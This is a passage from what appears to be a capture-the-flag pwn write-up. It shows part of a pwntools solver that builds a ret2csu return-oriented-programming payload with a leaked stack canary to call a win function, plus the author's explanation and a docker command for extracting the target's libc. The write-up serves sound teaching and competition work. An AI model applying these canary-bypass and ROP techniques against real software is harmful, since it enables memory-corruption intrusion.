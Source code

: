 ```python
#     b'y' * 10,
#     canary,
#     b'\x90'*8,
#     rdx,
#     libc.address+ 0x16a64,
#     0x0,
#     rsi,
#     piebase + 0x572,
#     0x0,
#     rdi,
#     piebase + 0x579,
#     win
# )

# +++win csu (intended)+++
payload = flat(
    b'y' * 10,
    canary,
    win,
    popper,
    0x0,
    0x1,
    ord('f'),
    ord('l'),
    ord('a'),
    win_buff,
    caller,
)

p.recvuntil(b"That's great! Can you provide some extra feedback?")
p.send(payload)

p.interactive()
```

If you remember win_buff is address after canary, and when i use ret2csu the caller gadgets call [r15 + rbx*0x8] so basically it was calling function inside r15 and what inside my r15 is address that point to win functions.

Note : If you look closely i have some comments on the solver, and i don't find the correct libc version from the leak(puts), after the competition i found
out how to know libc version from Dockerile, first need to run the docker then just copy the docker libc to local 
`docker cp --follow-link 859828691e52:/srv/usr/lib/x86_64-linux-gnu/libc.so.6 ./` you need to change the container id
